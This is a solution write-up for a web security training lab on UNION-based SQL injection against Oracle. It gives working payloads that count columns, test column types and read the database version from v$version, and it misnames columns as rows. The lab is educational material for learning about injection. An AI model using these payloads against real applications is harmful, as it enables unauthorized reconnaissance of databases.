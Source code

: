 # Lab: SQL injection attack, querying the database type and version on Oracle

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4672c18a-6776-44c6-b788-b4702ecd3032)

## Solution

The page has a vulnerability in the product category filter.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/62ea1224-6a35-4ae6-9890-f17ba5696e9f)

Find the `GET` reqest for the prodcut filter in HTTP history and send it to repeater.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/2a2b5262-8e6b-4585-bb91-0f92b2d1deac)

Append `'+UNION+SELECT+NULL,NULL+FROM+dual--` to the filter to find how many rows are being returned> Two rows are being returned.
The query made by the page will be

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL FROM dual--
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a632ded9-c9c2-4adf-8f1f-a9ceca6c1998)

Now to find if both rows are strings by the payload `'+UNION+SELECT+'adc','def'+FROM+dual--` and the result shows both rows are strings.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4ca52908-3603-410d-a8c8-1e48926ef031)

Use the payload `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` to find the version.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/fc92511d-6466-44a3-ba53-ab4193f0a67a)
